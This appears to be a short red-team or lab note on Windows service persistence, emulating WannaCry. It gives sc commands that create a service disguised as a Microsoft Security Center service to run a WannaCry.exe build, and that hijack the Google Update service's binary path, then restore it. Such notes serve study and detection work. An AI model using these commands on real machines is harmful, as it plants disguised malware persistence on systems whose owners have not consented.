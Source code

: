 # Create or Modify System Process: Windows Service

- Code and compile program `Windows Service Application` - WannaCry.exe

- Create Service `(Administrator: Command Prompt)`
  - Create Service follow case attack WannaCry.
  ```powershell
  sc create "mssecsvc2.0" DisplayName = "Microsoft Security Center (2.0) Service" binPath = "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe" start = "auto"
  ```
  ```powershell
  sc start mssecsvc2.0
  sc stop mssecsvc2.0
  sc delete mssecsvc2.0
  ```

- Modify Service `(Administrator: Command Prompt)`
  * Modify google update service.
  ```powershell 
  sc config gupdate binPath= "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe"
  sc start gupdate
  ```
  * Restore default path google update.
  ```powershell 
  sc config gupdate binPath= "\"C:\Program Files (x86)\Google\Update\GoogleUpdate.exe\" /svc" >nul 2>&1 
  ```
